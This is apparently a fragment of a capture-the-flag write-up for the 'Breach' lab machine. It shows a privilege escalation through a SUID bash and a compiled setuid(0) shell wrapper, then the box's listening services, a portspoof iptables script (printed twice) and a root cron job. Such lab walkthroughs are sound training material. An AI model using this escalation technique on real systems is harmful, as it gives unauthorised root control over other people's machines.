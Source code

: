     blumbergh@Breach:/tmp$ ./bash -p
    

    ./bash -p
    bash-4.3# id
    id
    uid=1001(blumbergh) gid=1001(blumbergh) euid=0(root) groups=0(root),1001(blumbergh)


    bash-4.3# cat b.c
    cat b.c
    void main() {
            setuid(0);
            setgid(0);
            system("/bin/bash");
    }


    bash-4.3# gcc b.c -o b
    ./b
    root@Breach:~# id    
    uid=0(root) gid=0(root) groups=0(root),1001(blumbergh)



# Box's configuration

    root@Breach:/etc/init.d# netstat -tlupn
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      1013/portspoof  
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      941/mysqld      
    tcp6       0      0 :::80                   :::*                    LISTEN      1092/apache2    
    tcp6       0      0 :::8443                 :::*                    LISTEN      1174/java       
    tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN      1174/java       

    cat portly.sh
    #!/bin/bash

    iptables -t nat -A PREROUTING -p tcp --match multiport --dport 1:79,81:8442,8444:65535 -j REDIRECT --to-ports 4444 && /usr/local/bin/portspoof -c /usr/local/etc/portspoof.conf -s /usr/local/etc/portspoof_signatures -D

    cat portly.sh
    #!/bin/bash

    iptables -t nat -A PREROUTING -p tcp --match multiport --dport 1:79,81:8442,8444:65535 -j REDIRECT --to-ports 4444 && /usr/local/bin/portspoof -c /usr/local/etc/portspoof.conf -s /usr/local/etc/portspoof_signatures -D


    root@Breach:/etc# crontab -l
    */3 * * * * /usr/share/cleanup/tidyup.sh
